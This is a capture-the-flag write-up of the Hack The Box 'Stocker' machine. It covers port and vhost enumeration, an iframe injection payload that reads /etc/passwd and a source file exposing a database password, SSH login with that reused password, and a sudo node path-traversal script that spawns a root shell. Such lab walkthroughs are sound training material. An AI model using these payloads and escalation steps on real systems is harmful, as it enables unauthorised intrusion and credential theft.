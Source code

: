 First what we need to do is, turn on the nmap and check what's running on the server. This what we got, standard ports onlly HTTP and SSH and also we have a domain.
stocker.htb . 
```
┌──(kali㉿kali)-[~]
└─$ nmap -sCV 10.10.11.196
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-07 10:15 EDT
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
You can add this domain by command ```sudo echo "10.10.10.10 stocker.htb" >> /etc/hosts``` let's go into this website and check what's there. But there is nothing intresting, let's try to enumerat directorys. But i don't get also any intresting directory.
```
===============================================================
/css                  (Status: 301) [Size: 178] [--> http://stocker.htb/css/]
/favicon.ico          (Status: 200) [Size: 1150]
/fonts                (Status: 301) [Size: 178] [--> http://stocker.htb/fonts/]
/img                  (Status: 301) [Size: 178] [--> http://stocker.htb/img/]
/index.html           (Status: 200) [Size: 15463]
/js                   (Status: 301) [Size: 178] [--> http://stocker.htb/js/]
```
I decid to enumerat vhost by this command.
```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain
```
I got something intrestting subdomain.
```
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```
Let's insert this in /etc/hosts and check what's there.
I turn on the BurpSuite and intercept the traffic to get all request.
And i found something intresting

![obraz](https://github.com/Anogota/Stocker/assets/143951834/667f2faa-4f1b-4926-b412-7e89875a8632)

in tittle i add <h1>Hello</h1> and its work.

![obraz](https://github.com/Anogota/Stocker/assets/143951834/9d3f6bce-b23e-412b-932d-6483da3d1f75)

I will try maybe to see /etc/passwd, ``` <iframe src=/etc/passwd width=1000px height=1000px></iframe> ``` i got the list of user.Save angoose for late.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
landscape:x:109:116::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
fwupd-refresh:x:112:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```
I did some recon and i found this.
inser in title this ```<iframe src=file:///var/www/dev/index.js width=1000px height=1000px``` there is a password :P

```
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```
When we have a user and password, let's log in to SSH by this creds.
We go the user flag.

![obraz](https://github.com/Anogota/Stocker/assets/143951834/f04d360e-2d50-498e-ac8e-61c26b997656)

First what i did when i get the user is sudo -l in the easy CTF is always good chose and also in this situation, this what i got.
```
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

I wrote in google node priv escalation, and i got to solution how get a root.
Assume we can execute ‘node’ command as root and js file.
Create the “test.js” under /tmp, which spawns a root shell after executing ‘node’ command.
```
// /tmp/test.js
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```
Now run ‘node’ command as root. We can pass the file using path traversal.
```
sudo /usr/bin/node /usr/local/scripts/../../../tmp/test.js
```
Here the website: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-path-traversal-privilege-escalation/
When you did all this steps u get a root.

![obraz](https://github.com/Anogota/Stocker/assets/143951834/190c20bd-0c8b-450d-8b08-eda990b46350)

That's all pretty easy lab.
